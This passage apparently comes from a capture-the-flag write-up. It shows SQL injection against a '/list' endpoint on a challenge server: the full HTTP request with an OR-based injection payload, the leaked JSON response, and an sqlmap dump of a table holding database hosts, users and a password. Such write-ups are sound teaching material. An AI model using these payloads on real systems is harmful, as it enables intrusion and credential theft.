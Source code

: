 4yn found that this `/list` endpoint was vulnerable to SQL injection.

```
GET /list?type='OR'1'%3d'1'+AND+ID%3d2%3b-- HTTP/1.1
Host: 176.32.76.86:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/


```

Response received:

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 65
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type,Authorization
Access-Control-Allow-Methods: GET,PUT,POST,DELETE,OPTIONS
Server: Werkzeug/2.0.2 Python/3.6.9
Date: Fri, 26 Nov 2021 06:28:46 GMT

[
  2,
  "mysql",
  3306,
  "lara",
  "ctf",
  "mysql",
  "t7/pjPgAa96XedDRQ5h5ZA\u003d\u003d"
]
```

I simply threw sqlmap at it and dumped the `items` table from the sqlite database.

```console
Table: items
[3 entries]
+----+------+--------------+---------+--------------+---------+----------+-----------+
| id | port | host         | user    | pass         | dbname  | hosttype | tablename |
+----+------+--------------+---------+--------------+---------+----------+-----------+
| 1  | 80   | 176.32.76.86 | <blank> | <blank>      | <blank> | www      | <blank>   |
| 2  | 3306 | mysql        | lara    | secretsecret | ctf     | mysql    | ctf       |
| 3  | 3306 | mysql        | root    | <blank>      | ctf     | mysql    | flag      |
+----+------+--------------+---------+--------------+---------+----------+-----------+
```

It appears that there is a separate host that runs a backend mysql database that has the `flag`
table. Also notable is that the mysql `root` user does not have a password. This will come in handy
later.

